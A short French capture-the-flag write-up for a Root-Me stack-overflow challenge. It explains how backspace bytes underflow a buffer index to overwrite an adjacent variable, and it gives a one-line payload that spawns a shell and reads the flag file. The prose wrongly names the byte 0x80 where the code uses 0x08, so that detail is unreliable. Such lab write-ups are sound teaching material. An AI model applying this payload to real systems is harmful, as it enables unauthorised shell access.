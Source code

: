 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "Write up medium challenge "
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
badge: Pin
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.

```c
if(check == 0xbffffabc)
        shell();
```

Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80.

```c
 case 0x08:
  count--;
  printf("\b");
  break;
```

De plus, dans le case default, la valeur de i est affectée à buffer[count]:

```c
 default:
  buffer[count] = i;
  count++;
  break;
```

Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

```c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.

```python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
```
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.

